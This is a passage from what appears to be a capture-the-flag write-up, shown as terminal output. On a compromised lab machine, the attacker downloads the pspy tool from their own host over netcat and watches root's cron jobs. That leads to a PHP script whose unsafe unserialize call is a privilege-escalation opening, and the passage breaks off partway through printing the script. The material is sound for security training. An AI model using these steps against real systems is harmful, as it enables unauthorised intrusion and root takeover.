 www-data@player:/$ export TERM=xterm  
www-data@player:/$ clear  
www-data@player:/$ cd /tmp  
www-data@player:/tmp$ nc 10.10.15.95 1337 > pspy64

root@kali:~# nc -lnvp 1337 < pspy64  
listening on [any] 1337 ...  
connect to [10.10.15.95] from (UNKNOWN) [10.10.10.145] 48964

www-data@player:/tmp$ chmod +x pspy64  
www-data@player:/tmp$ ./pspy64  
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

██▓███ ██████ ██▓███ ▓██ ██▓  
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒  
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░  
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░  
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░  
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒  
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░  
░░ ░ ░ ░ ░░ ▒ ▒ ░░  
░ ░ ░  
░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)  
Draining file system events due to startup...  
done

2020/01/20 04:06:01 CMD: UID=0 PID=3429 | /root/openssh-7.2p1/sshd -p 6686 -f /root/openssh-7.2p1/sshd_config -D -d  
2020/01/20 04:06:02 CMD: UID=0 PID=3431 | CRON  
2020/01/20 04:06:02 CMD: UID=0 PID=3433 | /usr/bin/php /var/lib/playbuff/buff.php  
2020/01/20 04:06:02 CMD: UID=0 PID=3432 | /bin/sh -c /usr/bin/php /var/lib/playbuff/buff.php > /var/lib/playbuff/error.log  
2020/01/20 04:06:06 CMD: UID=0 PID=3436 | sleep 5

www-data@player:/tmp$ cat /var/lib/playbuff/buff.php  
<?php  
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");  
class playBuff  
{  
public $logFile="/var/log/playbuff/logs.txt";  
public $logData="Updated";

public function __wakeup()  
{  
file_put_contents(__DIR__."/".$this->logFile,$this->logData);  
}  
}  
$buff = new playBuff();  
$serialbuff = serialize($buff);  
$data = file_get_contents("/var/lib/playbuff/merge.log");  
if(unserialize($data))  
{  
$update = file_get_contents("/var/lib/playbuff/logs.txt");  
$query = mysqli_query($conn, "update stats set status='$update' where id=1");  
if($query)  
{  
echo 'Update Success with serialized logs!';  
}  
}  
else  
{  
file_put_contents("/var/lib/playbuff/merge.log","no issues yet");  
$update = file_get_contents("/var/lib/playbuff/logs.txt");  